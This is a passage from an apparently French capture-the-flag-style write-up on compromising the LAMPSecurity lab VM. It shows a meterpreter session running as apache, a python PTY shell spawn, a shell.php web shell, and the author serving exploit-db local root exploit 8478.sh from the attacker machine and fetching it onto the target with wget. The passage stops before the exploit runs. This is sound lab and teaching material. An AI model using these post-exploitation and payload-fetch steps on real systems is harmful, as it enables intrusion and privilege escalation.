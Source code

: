 Il ne nous reste plus qu'à créer un [pseudo-terminal Bash](https://netsec.ws/?p=337) avec le module PTY.

```console
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer    : localhost.localdomain
OS          : Linux localhost.localdomain 2.6.18-92.el5 #1 SMP Tue Jun 10 18:49:47 EDT 2008 i686
Meterpreter : php/linux

meterpreter > shell
Process 4940 created.
Channel 1 created.

id
uid=48(apache) gid=48(apache) groups=48(apache)

python -c 'import pty; pty.spawn("/bin/bash")'
bash-3.2$ 
```

### Élévation de privilèges (root)

Après plusieurs essais infructueux, j'ai finalement réussi à passer root avec [cet exploit](https://www.exploit-db.com/exploits/8478/).

Hop, un petit serveur Web pour mettre l'exploit (disponible également sur Kali) à disposition de la VM LAMPSecurity.

```console
root@blinils:~# cp /usr/share/exploitdb/exploits/linux/local/8478.sh 8478.sh
root@blinils:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

Pendant ce temps, sur la VM...

```console
bash-3.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)

bash-3.2$ ls
ls
drive-removable-media-ieee1394.png  redhat-home.png
media-optical-bd.png		    shell.php
palm-pilot.png			    stock_new-appointment.png
redhat-applications.png

bash-3.2$ wget http://192.168.56.102:8000/8478.sh -q
wget http://192.168.56.102:8000/8478.sh -q

bash-3.2$ ls
ls
8478.sh				    redhat-applications.png
drive-removable-media-ieee1394.png  redhat-home.png
media-optical-bd.png		    shell.php
palm-pilot.png			    stock_new-appointment.png
```
